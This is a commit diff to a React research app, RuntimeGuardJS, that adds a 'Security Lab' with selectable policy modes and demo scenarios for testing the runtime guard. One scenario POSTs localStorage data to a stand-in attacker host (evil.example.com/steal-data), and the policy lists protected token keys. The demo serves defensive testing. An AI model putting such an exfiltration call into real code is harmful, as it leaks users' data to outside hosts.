

Before and after one commit to Angelflores268/runtimeguardjs-research, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 1420-2340 px from the top of the page. Before the commit the page ends 2088 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
added in lab policys

```diff
--- a/src/App.tsx
+++ b/src/App.tsx
@@ -8,10 +8,31 @@ import {
   type MonitorEvent,
 } from "./eventLogger";
 
+import {
+  runNormalBehavior,
+  runProtectedDataAccess,
+  runDataExfiltration,
+} from "./securityScenarios";
+
+import {
+  getPolicyMode,
+  setPolicyMode,
+  type PolicyMode,
+} from "./policy";
+
 function App() {
   const [events, setEvents] = useState<MonitorEvent[]>(
     getEvents()
   );
+
+  const [selectedPolicy, setSelectedPolicy] =
+    useState<PolicyMode>(getPolicyMode());
+
+  function changePolicy(mode: PolicyMode) {
+    setPolicyMode(mode);
+    setSelectedPolicy(mode);
+    clearEvents();
+  }
 
   useEffect(() => {
     const unsubscribe = subscribeToEvents((newEvents) => {
@@ -92,6 +113,82 @@ function App() {
           </p>
         </section>
 
+        <section className="lab-section">
+          <div>
+            <p className="status-label">Interactive experiment</p>
+            <h2>Security Lab</h2>
+
+            <p>
+              Run controlled JavaScript scenarios to see how RuntimeGuardJS
+              detects, allows, or blocks different browser actions.
+            </p>
+          </div>
+
+          <div className="policy-selector">
+            <p>
+              <strong>Current policy:</strong> {selectedPolicy}
+            </p>
+
+            <div className="lab-actions">
+              <button
+                className={
+                  selectedPolicy === "permissive"
+                    ? "primary-button"
+                    : "secondary-button"
+                }
+                onClick={() => changePolicy("permissive")}
+              >
+                Permissive
+              </button>
+
+              <button
+                className={
+                  selectedPolicy === "balanced"
+                    ? "primary-button"
+                    : "secondary-button"
+                }
+                onClick={() => changePolicy("balanced")}
+              >
+                Balanced
+              </button>
+
+              <button
+                className={
+                  selectedPolicy === "strict"
+                    ? "primary-button"
+                    : "secondary-button"
+                }
+                onClick={() => changePolicy("strict")}
+              >
+                Strict
+              </button>
+            </div>
+          </div>
+
+          <div className="lab-actions">
+            <button
+              className="primary-button"
+              onClick={runNormalBehavior}
+            >
+              Run normal behavior
+            </button>
+
+            <button
+              className="secondary-button"
+              onClick={runProtectedDataAccess}
+            >
+              Attempt protected data access
+            </button>
+
+            <button
+              className="secondary-button"
+              onClick={runDataExfiltration}
+            >
+              Attempt data exfiltration
+            </button>
+          </div>
+        </section>
+
         <section className="event-section">
           <div>
             <p className="status-label">Runtime activity</p>
--- a/src/policy.ts
+++ b/src/policy.ts
@@ -13,6 +13,13 @@ export type PolicyDecision = {
   reason: string;
 };
 
+export type PolicyMode =
+  | "permissive"
+  | "balanced"
+  | "strict";
+
+let currentPolicyMode: PolicyMode = "balanced";
+
 const ALLOWED_DOMAINS = [
   "api.example.com",
   "trusted.example.com",
@@ -24,9 +31,61 @@ const PROTECTED_STORAGE_KEYS = [
   "auth-token",
 ];
 
+export function setPolicyMode(mode: PolicyMode) {
+  currentPolicyMode = mode;
+}
+
+export function getPolicyMode(): PolicyMode {
+  return currentPolicyMode;
+}
+
 export function evaluatePolicy(
   action: SecurityAction
 ): PolicyDecision {
+
+  // PERMISSIVE POLICY
+  if (currentPolicyMode === "permissive") {
+    return {
+      allowed: true,
+      reason: `The permissive policy allows this ${action.type} action.`,
+    };
+  }
+
+  // STRICT POLICY
+  if (currentPolicyMode === "strict") {
+    if (action.type === "fetch") {
+      try {
+        const url = new URL(action.target);
+
+        if (url.hostname === "localhost") {
+          return {
+            allowed: true,
+            reason:
+              "The strict policy allows requests to localhost.",
+          };
+        }
+
+        return {
+          allowed: false,
+          reason:
+            "The strict policy blocks requests to external domains.",
+        };
+      } catch {
+        return {
+          allowed: false,
+          reason: "The request target is not a valid URL.",
+        };
+      }
+    }
+
+    return {
+      allowed: false,
+      reason:
+        "The strict policy blocks browser storage access.",
+    };
+  }
+
+  // BALANCED POLICY
   if (action.type === "fetch") {
     try {
       const url = new URL(action.target);
@@ -34,13 +93,13 @@ export function evaluatePolicy(
       if (ALLOWED_DOMAINS.includes(url.hostname)) {
         return {
           allowed: true,
-          reason: `Requests to ${url.hostname} are allowed.`,
+          reason: `Requests to ${url.hostname} are allowed by the balanced policy.`,
         };
       }
 
       return {
         allowed: false,
-        reason: `Requests to ${url.hostname} are not allowed.`,
+        reason: `Requests to ${url.hostname} are not allowed by the balanced policy.`,
       };
     } catch {
       return {
@@ -63,7 +122,7 @@ export function evaluatePolicy(
 
     return {
       allowed: true,
-      reason: `Access to "${action.target}" is allowed.`,
+      reason: `Access to "${action.target}" is allowed by the balanced policy.`,
     };
   }
 
--- /dev/null
+++ b/src/securityScenarios.ts
@@ -0,0 +1,32 @@
+export async function runNormalBehavior() {
+  localStorage.setItem("theme", "dark");
+
+  localStorage.getItem("theme");
+
+  try {
+    await fetch(window.location.href);
+  } catch (error) {
+    console.error("Normal behavior scenario error:", error);
+  }
+}
+
+export function runProtectedDataAccess() {
+  try {
+    localStorage.getItem("session-token");
+  } catch (error) {
+    console.error("Protected data access blocked:", error);
+  }
+}
+
+export async function runDataExfiltration() {
+  const data = localStorage.getItem("theme");
+
+  try {
+    await fetch("https://evil.example.com/steal-data", {
+      method: "POST",
+      body: data ?? "no-data",
+    });
+  } catch (error) {
+    console.error("Data exfiltration blocked:", error);
+  }
+}
```
